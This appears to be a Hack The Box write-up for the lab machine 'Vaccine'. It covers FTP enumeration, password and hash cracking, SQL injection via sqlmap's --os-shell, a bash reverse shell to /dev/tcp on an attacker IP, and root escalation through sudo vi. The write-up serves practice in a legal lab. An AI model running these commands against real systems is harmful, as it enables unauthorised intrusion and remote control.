Welcome to my version of the HTB machine Vaccine.


# TASK 1

- First thing, use nmap to scan posible open ports



- Then specify on the information of each service running



- We can see three services running:

Port 21: FTP or File Transfer protocol, a protocol used to move files between computers.
Port 22: SSH
Port 80: HTTP

# TASK 2

- Next step is login on the FTP service to see if we can get any vulnerable information.

When logging in to the service we are aasked about an username and a password.

Before, on the nmap, we saw that there is a line that says "Anonymous allowed". *Anonymous* is an user which doesn't require any credetnials to be accessed.



# TASK 3

For this task we only need to list the contents of the service and download them.



# TASK 4

When trying to unzip the files we are asked a password, which means its protected.

We can crack this password with John The Ripper



Inside of the .zip file theres only a php and a style.css from a website.

# TASK 5   

On the index.php file, from the zip file cracked before, we can see something inside a "login" function.



This is posibly a hash, lets try to crack it.

With a tool called Hash-id we can identify the tipe of hash we are dealing with:



Now wee can crack it



# TASK 6

- Now that we can log inside the website we are presented with a dashboard:



It looks like a site which depends on a database, therefore there is a posibility of finding information with an SQLi.

When searching something on the search field, this url pops on: `http://10.129.104.17/dashboard.php?search=`

This increases the posibility of an SQLi.

- Using SQLmap, the moment we see the last line:



```
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```
It means that its vulnerable. Using other information we can guess that its injectable.

Now using the flag `--os-shell` we'll be able to use a RCE to gain access.

- Once we are granted a terminal, open a port to listen:

```
nc -nvlp 4444
```

then use a revershell on the terminal

```
bash -c "bash -i >& /dev/tcp/10.10.14.104/4444 0>&1"
```

And we get access:



# TASK 7

When using `sudo -l` we are asked for a password which we currently don't have, on ```/var/www/http``` we'll find a file with the credentials for the postgres user.

Then againg with `sudo -l` we'll see that the command is `vi` on a specific file.

# User Flag

Is in the directory  `/var/lib/postgresql/`

# Root flag

Now that we know which command can be executed with sudo, we can refer to GTFOBins.

Following the information on the site, using the command with sudo:

```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
and then typing ":" followed by one of the ways to generate a shell specified on GTFOBins we'll bw granted a root terminal. 

If you are not certain of being on root you can always check with `whoami`.

Then only rests going for the flag on roots directory